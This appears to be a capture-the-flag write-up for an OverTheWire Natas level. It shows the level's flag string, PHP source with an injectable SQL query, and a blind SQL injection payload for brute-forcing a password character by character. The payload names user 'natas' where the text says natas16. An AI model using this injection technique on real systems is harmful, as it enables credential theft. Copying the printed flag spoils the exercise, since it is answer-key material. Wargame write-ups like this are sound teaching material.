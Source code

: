 
# Solution
```
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```

Based on the source code, we found out that the SQLi is in fact, conditional.

```php
<?php  
  
/*  
CREATE TABLE `users` (  
  `username` varchar(64) DEFAULT NULL,  
  `password` varchar(64) DEFAULT NULL  
);  
*/  
  
if(array_key_exists("username", $_REQUEST)) {    $link = mysqli_connect('localhost', 'natas15', '<censored>');    mysqli_select_db($link, 'natas15');    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";  
    if(array_key_exists("debug", $_GET)) {  
        echo "Executing query: $query<br>";  
    }    $res = mysqli_query($link, $query);  
    if($res) {  
    if(mysqli_num_rows($res) > 0) {  
        echo "This user exists.<br>";  
    } else {  
        echo "This user doesn't exist.<br>";  
    }  
    } else {  
        echo "Error in query.<br>";  
    }    mysqli_close($link);  
} else {  
?>
```

We also know `natas16` is one of the existing users, we can use this payload (Needs to be url-encoded), to bruteforce for password:
```
natas16" AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='natas')='a'-- -
```